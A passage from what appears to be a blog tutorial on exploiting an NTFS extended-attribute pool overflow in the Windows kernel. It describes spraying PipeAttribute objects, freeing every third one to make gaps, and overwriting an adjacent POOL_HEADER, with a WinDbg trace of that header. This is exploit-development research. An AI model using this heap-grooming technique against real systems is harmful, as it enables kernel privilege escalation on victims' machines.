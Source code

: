 
![](/images/blogpost_part2_images/Step-1.drawio.svg)

---
### Create Gaps

Next, we create some gaps where our vuln object should be allocated into. We have to avoid freeing two adjacent objects. Hence our strategy is to free every third object, this is the same Synacktiv used in their example exploit and did work fine for me.

![](/images/blogpost_part2_images/Step-2.drawio.svg)

Just closing the corresponding pipe does trigger the free of the respective `PipeAttribute`.




---
### Allocate Vulnerable Object

After we created the gaps, we want to allocate our vuln object into a previously freed space. The layout should be, that one of our sprayed `PipeAttribute`s is directly behind (adjacent) to our vuln object. 

If you had a bit of luck, the memory layout looks like:

![](/images/blogpost_part2_images/Step-3.drawio.svg)



---
### Trigger Vuln to Overwrite Pool Header 

With this bug we're exploiting currently, we don't have control over when the vulnerable object is allocated, when the vulnerability is triggered and when the object is freed again, as it is both executed through one `ntdll` api call. Allocation, overflow and deallocation happens within one go.

Dynamically analysing of the adjacent's chunk `POOL_HEADER`:
```
// Adjacent's Chunk Pool Header Before Overflow
1: kd> p
Ntfs!NtfsQueryEaUserEaList+0x1ca:
fffff806`3eb5c2ee 41897d00        mov     dword ptr [r13],edi
1: kd> dt nt!_POOL_HEADER ffffc303dce4aa00
   +0x000 PreviousSize     : 0y00000000 (0)
   +0x000 PoolIndex        : 0y00000000 (0)
   +0x002 BlockSize        : 0y00010110 (0x16)
   +0x002 PoolType         : 0y00000011 (0x3)
   +0x000 Ulong1           : 0x3160000
   +0x004 PoolTag          : 0x7441704e
   +0x008 ProcessBilled    : (null) 
   +0x008 AllocatorBackTraceIndex : 0
   +0x00a PoolTagHash      : 0

1: kd> g
Breakpoint 0 hit
Ntfs!NtfsQueryEaUserEaList+0x1c5:
```